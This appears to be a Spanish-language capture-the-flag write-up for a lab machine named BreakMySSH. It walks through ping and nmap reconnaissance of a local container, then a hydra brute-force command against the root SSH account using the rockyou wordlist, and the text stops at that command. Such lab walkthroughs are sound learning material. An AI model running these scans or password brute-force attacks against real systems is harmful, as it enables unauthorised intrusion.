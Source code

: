 # BreakMySSH

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 22, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22`: Escaneo de los puertos 22 (SSH).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfOr49bj2kh3ab2WutTu6Jx7NA7OKSxzp42bJU4nqtQlICZbjiBXhOa1ZKOfUfNvXOGEThiSrTNbf1nRGzXtACiZQp+RwQr5ZEYPAOyasC7C29FaIZVURR7FuFea+tfWZjbzDaP8WnA/U3TQHwtUBsNSR3qFscgJQ1niCyrfH/4rbUk5jiLYN6y8NjctGvsvwPE+cCiFVge76qyfzmZdaf5gJT9DKDt47iBkrngCODYrqqt+Bbl9ZEGh5SUfDqYfsFMIvlsSjmbx0HtMc2NhTW7jLtyV3Xm6ynFUZmQRPRqXdzuN5TIhYzaQD8ogC1Hk9sYJJNUMMF+lGVf15iouMn
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ77V//dhC1BX2KXpMNurk9hJPA3aukuoMLPajtYfaewmlwrsK5Rdss/I/iQ23YrziNvWb3VMJk511YbvvreZo=
|   256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICFLUqv+frul58FgQLXP91bNrTRC9d1X545DZJ0wsw6z
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Al tener una versión de ssh que no permite la enumeración de usuarios y únicamente tenemos el puerto 22 abierto, vamos a probar con hydra y fuerza bruta si podemos obtener el password de root.

## Explotación.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
- `-l root`: Especifica el nombre de usuario "root" para el intento de inicio de sesión.
- `-P /usr/share/wordlists/rockyou.txt`: Especifica la ubicación del archivo de contraseñas a utilizar. En este caso, se utiliza el archivo "rockyou.txt" como lista de contraseñas.
- `ssh://172.17.0.2`: Indica el protocolo a utilizar (`ssh`) y la dirección IP del host objetivo (`172.17.0.2`). Esto establece el destino del intento de inicio de sesión mediante SSH.
